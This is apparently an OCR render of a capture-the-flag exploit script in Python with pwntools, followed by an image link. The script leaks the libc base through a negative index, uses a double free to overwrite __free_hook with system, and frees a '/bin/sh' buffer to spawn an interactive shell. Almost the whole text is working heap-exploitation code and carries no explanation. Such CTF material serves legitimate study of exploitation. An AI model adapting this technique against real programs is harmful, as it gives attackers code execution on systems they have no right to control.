 ```python
use_oneday(1, 3)

# libc leak
view(-4)
r.recvuntil("|name |")
libc = u64(r.recvline()[-9:-3].ljust(8, b"\x00")) - 0x1ec643 # libc base
log.info("libc base: " + hex(libc))
freehook = libc + offset_freehook
system = libc + offset_system

# double free
for i in range(0x20):
    use_oneday(0, 1)
use_oneday(1, 1)

# get shell
buy(2, p64(freehook), "B") # index: 3
buy(1, "/bin/sh", "B") # index: 4
buy(1, p64(system), "B") # index: 5

r.recvuntil("choice: ")
r.sendline("3")

r.recvuntil("Index of ticket: ")
r.sendline("4")

r.interactive()
```

![image](https://user-images.githubusercontent.com/59759771/90625038-edeb3880-e253-11ea-9b05-21d01c1439fc.png)